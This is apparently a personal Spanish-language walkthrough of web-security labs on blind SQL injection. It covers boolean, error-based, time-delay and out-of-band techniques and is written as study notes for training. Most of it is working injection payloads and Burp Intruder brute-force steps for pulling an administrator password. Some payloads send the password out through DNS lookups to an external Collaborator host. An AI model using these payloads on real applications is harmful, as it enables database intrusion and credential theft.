


# blind sql

## Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.


- The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

- No return value but return welcome back

- table users

- columns username and password

- get administrator user password


### 1. Mirar nuestra cookie

TrackingId
vV98oHaO4oKxWhb1


Según nuestros payloads , la consulta que hace dentro es esta

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Si existe el usuario nos devuelve un welcome, si no nos devuelve nada.

La consulta normal sería 


La consulta modificando el blind sería poniendole otra cosa


No devuelve nada.

#### 2. Segundo mirar si es vulnerable a sql injection

```bash
...xyz' AND '1'='1--
…xyz' AND '1'='2--
```


Miramos también el 1=2 para que no funcione.

### 3. Obtener si la tabla existe

Una vez comprobado que es explotable, vamos a ver si existe la tabla. En el ejercicio nos dice que es **users**

La consulta que hace dentro es esta

```bash
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' 
```
le vamos a añadir la comprobación de si existe la tabla, se puede hacer de muchas formas

Nosotros añadimos

```BASH
' and (select 'x' from users LIMIT 1)='x'--
```


Existe la tabla, cambiamos el nombre para ver si no devuelve welcome. Efectivamente si cambiamos la tabla users por otro nombre no nos devuelve welcome.

### 4. Ver si existe el usuario.
El ejercicio nos dice que es administrator pero vamos a comprobar.

Ahora a nuestra consulta inicial le vamos a añadir que devuelva true (welcome back) si existe el usuario

Tenemos que hacer una consulta 1=1 o lo que sería x=x donde :

   1. El primer x va a ser una consulta que devuelva administrator si existe , si no daría error
   2. será administrator

En vez de 1=1 debería de ser administrator=administrator

Añadimos
```bash
' and (select 'username' from users where username='administrator')=''administrator'--
```


No aparece welcome, por lo que o nos hemos equivocado o no existe. Me acabo de dar cuenta que después del igual he puestos dos ' u encima le he puesto a username ' 
```bash
' and (select username from users where username='administrator')='administrator'--
```


Ahora si funciona

### 5. Obtener la clave

Una vez que tenemos el usuario y la tabla ya podemos realizar el ataque para saber la contraseña.

La lógica es :
   1. Obtener el tamaño de la cadena
   2. ir haciendo pruebas alfanumericas (como nos dice el ejercicio), una vez que encontremos el 1º caracter vamos al segundo y así.

### 6. obtener el tamaño de la cadena

Tenemos que hacer una consulta que compare el tamaño.

1. Tenemos que realizar un 1=1 , en este caso haremos que muestre cuando administrator=administrator
2. la condición inicial que haremos será que muestre true si el suaurio es administrator y la cadena es mayor que un número. Mandaremos a intruder para hacer un ataque de fuerza bruta y veremos a partir de que numero se cumple la condición.

```bash
' and (select username from users where username='administrator' and LENGTH(password)>0)='administrator'--
```
Si no me he equivocado esto tendría que funcionar por lo cual lo ponemos en repeater, enviamos a intruder y donde pone 0 haremos un brute force de numeros hasta por ejemplo el 30.


> La primera condición que fuese administrator y mayor que 0 se cumple, por lo que se cumple con la segunda condición , sería 1=1 por lo que devuelve welcome.


Nos da un cambio a partir del caracter 20 por lo cual tendremos 20 caracteres en la contraseña... imposible hacerlo a mano


### 7. obtener la contraseña

** Substring**

Vamos a suponer que no es oracle, si no funciona pues usamos la de oracle.

```bash
Oracle	        SUBSTR('foobar', 4, 2)

Microsoft	    SUBSTRING('foobar', 4, 2)

PostgreSQL	    SUBSTRING('foobar', 4, 2)

MySQL	        SUBSTRING('foobar', 4, 2)
```

Creamos una substring de un select mayor

La cadena grande sería

Necesitariamos que esto fuese 1=1 , obviamente como no sabemos la passwordadministrator y es un blind que no devuelve el valor... pues hay que hacerlo por otro método.

```bash
' and (select password from users where username='administrator')='passwordadministrator'--
```

y la subcadena sería de los payloads de arriba pero con password, por lo que la cadena total quedaría algo así.

```bash
' and (select substring(password,1,1) from users where username='administrator')='a'--
```

En intruder tendremos que hacer dos tipos de ataque.

   1. el primer 1 de la substring será un recorrido de 1 a 20
   2. la a será un brute force de alfanuméricos


Si no me he equivocado tendría que ir así... voy a mandarlo a intruder y hacer los dos ataques como he dicho antes.


Seleccionamos ataque cluster bomb y los datos que van a cambiar el 1 y el a


1. Iterador de posición del caracter de password
    

   

2. Brute force alfanumerico


Le damos a atacar

Obtener los datos


Vemos que los correctos son con tamaño 5283

Filtramos por welcome back


Algo ha tenido que pasar, no me aparece ninguna correcta que la posición sea mayor de 9

Ordenando me doy cuenta de lo siguiente


Está pillando password pero no el password de la substring XD

Desde luego estos errores no me volverán a pasar, si nos damos cuenta le estaba metiendo password entre ''

```bash
' and (select substring('password',1,1) from users where username='administrator')='a'--

# la cambiamos por esta

' and (select substring(password,1,1) from users where username='administrator')='a'--

```


Esto ya tiene mejor pinta

ehfs7kn1ms4epn95kfv5


## Lab: Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

- valor enviado por cookie
- es blind , si el sql causa error devuelve un mensaje
- tabla users , username y passowrd
- obtener administrator password


>NOTA: Estos ejercicios se pueden hacer casi directamente pero la intención de esta guía es que me sirva de metodología para cualquier caso. Una vez acabe los laboratorios actualizaré mi metodología para que funcione con los diferentes tipos de ejercicios.

Este tipo de sql inyection no te das cuenta hasta que estás haciendo las consultas, por eso es necesario ir haciendo las pruebas tanto el que sabemos que si existe la respuesta como el que no.

### 1. Vamos a ver si la base de datos existe y si es explotable.

[v] ```     ' AND '1'='1--```  --> Devuelve 200 y ningún mensaje. por lo que puede ser blind y puede ser que necesite condicionales, aún no lo sabemos.

[v] ```     ' AND '2'='1--```  --> Devuelve 200 por lo que al no mostrar nada y ser una sentencia falsa estamos ante un tipo que necesitamos errores condicionales

### 2. Conditional errors sql injection

You can test a single boolean condition and trigger a database error if the condition is true.

```sql

Oracle     

SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual

Microsoft	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END

PostgreSQL	1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)

MySQL	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

Como vemos a la estructura donde queremos llegar, cada base de datos es de "su padre y de su madre"

Empezamos por la orcle, esta será sencilla de saber si no vale porque necesita el from dual


**probando oracle** -->  Nos devuelve 200 para la primera condición que es la falsa y 500 para la verdadera. hemos probado oracle porque es la primera que salía y vemos que funciona, por lo que no seguimos probando otras.

```sql

' union (select case when (1=1) then to_char(1/0) else '' end from dual)--

'+union+(SELECT+CASE+WHEN+(2%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)--    --> 200 falsa

'+union+(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+dual)--    --> 500 verdadera
```

Ahora ya podemos hacer la condición que queramos y temerlo donde está la condición 1=1

## Vamos a comprobar que la tabla users existe

Podemos usar (select 'x' from users LIMIT 1) o mejor aún probamos la misma consulta anterior pero en vez de comprobar en dual comprobamos en users.

Hay que tener cuidado porque tenemos que usar la misma que nos devolvía 200 (la condicion1=2) y cambiar dual por users

' union (select case when (1=2) then to_char(1/0) else '' end from users)--  --> **devuelve 200 por lo que existe users**

## comprobar que existe administrator

(select username from users where username='administrator')='administrator'--

básicamente la vamos a añadir dentro del select, pero ya sabemos que si existe el usuario nos devolverá error 500 y si no error 200. Importante comprobar un usuario que nos devuelva 200 (error) para comprobar que no nos hemos equivocado en la sistasis.

```bash
' union (select case when ((select username from users where username='administrator')='administrator') then to_char(1/0) else '' end from users)-- 
```

   1. con nombre falso

      

   2. Con nombre que existe administrator

      

### 5. Obtener la clave

Una vez que tenemos el usuario y la tabla ya podemos realizar el ataque para saber la contraseña.

La lógica es :
   1. Obtener el tamaño de la cadena
   2. ir haciendo pruebas alfanumericas (como nos dice el ejercicio), una vez que encontremos el 1º caracter vamos al segundo y así.

## 6. Obtener el tamaño de la contraseña 
Con esto conseguimos saber el tamaño, tenemos que mandarlo a intruder pero añadiendolo a nuestra consulta principal porque sino no veríamos ningun cambio , devolvería siempre 200.

```sql 
-- Para saber el tamño
(select username from users where username='administrator' and LENGTH(password)>0)='administrator'

-- Nuestra consulta funcional

' union (select case when ((select username from users where username='administrator')='administrator') then to_char(1/0) else '' end from users)-- 

-- Consulta  que mandaremos al intruder

' union (select case when ((select username from users where username='administrator' and LENGTH(password)>0)='administrator') then to_char(1/0) else '' end from users)-- 

```


Antes de mandarlo voy a hacer una prueba con password >0 eso es verdad por lo que la condición sería 1 por lo que el resultado sería 


Luego probaré una consulta con password> 1000 sería falso por lo que la condición and haría que fuese falso por lo que el resultado sería 200


Ahora ya podemos mandarlo y ver que tamaño será.

Sería un snipper normal


Tiene 20 caracteres porque el cambio de respuesta de 500 a 200 está ahí y la condición es que sea mayor


## 7. Obtener la contraseña

La contraseña se consigue con este tipo de select haciendo un iterador hasta el tamaño y luego un bruteforce de caracteres alfanuméricos por lo menos aquí en el laboratorio. Se podrían hacer más potentes.

```sql

-- Select para usar en el ataque
' and (select substring(password,1,1) from users where username='administrator')='a'


---Nuestra cadena funcional


' union select case when (1=1) then to_char(1/0) else '' end from users-- 

'+union+select+case+when+(1%3d2)+then+to_char(1/0)+else+''+end+from+users+WhERE+username='administrator'+and+substr(password,1,1)%3d'a' --

Lo hemos hecho de la otra manera porque al dar siempre 

Ahora cambiamos por el 1=1
```



awh1rah1ldpr6tzk32rt


## Lab: Blind SQL injection with time delays

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

Este ejercicio solo nos pide un delay de 10 segundos y nada más...

Podríamos buscar antes el tipo de base de datos pero es más rápido directamente.

```bash
Oracle	      dbms_pipe.receive_message(('a'),10)

Microsoft	   WAITFOR DELAY '0:0:10'

PostgreSQL	   SELECT pg_sleep(10)

MySQL	         SELECT SLEEP(10)
```
Probamos con el primero
```bash
[x] oracle       ' and dbms_pipe.receive_message(('a'),10)--
[x] Microsoft    ' and WAITFOR DELAY '0:0:10'--
[x] PostgreSQL	  ' and select pg_sleep(10)--
[x]MySQL	        ' and select SLEEP(10)--

[x] oracle       ' || dbms_pipe.receive_message(('a'),10)--
[x] Microsoft    ' || WAITFOR DELAY '0:0:10'--
[v] PostgreSQL	  ' || pg_sleep(10))--
[]MySQL	        ' || SLEEP(10)--
```
## Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

it is possible to trigger conditional time delays to infer information.

users , user administrator y password

Damos por hecho que los datos están bien, no vamos a volver a probarlo, lo que si vamos a ver que tipo de base de datos es.

Comprobamos el tipo de base de datos

'+||+pg_sleep(10)--; --> postgree


Sabemos que es esta en postgree

' || SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--

No funciona, vamos a ponerle ()
' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)--


### Comprobamos si existe administrator en users

' || (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END from users)--

Si existe 10 segundos de espera

## Ver el tamaño de la contraseña


' || (SELECT CASE WHEN (username='administrator') and (LENGTH(password)=1)THEN pg_sleep(10) ELSE pg_sleep(-1) END from users)--

Con esta opción va a ir todas las opciones rápido menos cuando funcione. Lo que hay que tener claro es que esta opción es buena para el intruder pero no para comprobar que en repeater si se cuple la condición, a no ser que sepas el tamaño de la cadena.

En este caso el tamaño de la contraseña es de 20


## Vamos a ver ahora la contraseña
' || (SELECT CASE WHEN (username='administrator' and substring(password,1,1)='a')THEN pg_sleep(10) ELSE pg_sleep(-1) END from users)--;

Ponemos el segundo parametro de substring como un snifer hasta 20 y el caracter como un bruteforce de alfanumericos

Mostramos el tiempo de respuesta y ordenamos

Una vez ordenamos boton de la derecha add coment

Filtramos por solo comentados y ordenamos por posicion


2wx2fjkx21cr5rsf3ge8


## Lab: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Esta es bien sencilla. Únicamente seleccionamos los diferentes tipos hasta que funcione . Ponemos la dirección de burpcollaborator y después de ejecutar descargamos... si hay una petición es esa sin pues probamos otra.

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

la siguiente técnica funciona en instalaciones de Oracle con parches completos, pero requiere privilegios elevados:

```sql
#Oracle
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

microsoft	

exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'

postgresql	

copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

mysql	Las siguientes técnicas funcionan solo en Windows:

LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')

SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

probamos oracle 
> cuidado con los paréntesis

' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://heztnyh9r33dob8zc0hm7xaiy94zso.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--


## Lab: Blind SQL injection with out-of-band data exfiltration
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

Es un ejercicio como los de antes. Es más podemos usar sus columnas, veremos como vemos la solución en el burpsuite dependiendo del número de solicitudes, entiendo que tendrá pocas palabras.

1. saber la tecnología de base de datos y si funciona el injection

```sql
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://heztnyh9r33dob8zc0hm7xaiy94zso.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--
```


Vemos que funciona por lo cual es oracle

2. Vamos a ver el tamaño

' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(select password from users where username='administrator')||'.heztnyh9r33dob8zc0hm7xaiy94zso.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--

si en el select le inyectamos 
select password from users where username='administrator'


oqoyckz7kjkegmb2kxl6.heztnyh9r33dob8zc0hm7xaiy94zso.burpcollaborator.net.

La primera parte antes del . es la solución al select que enviamos


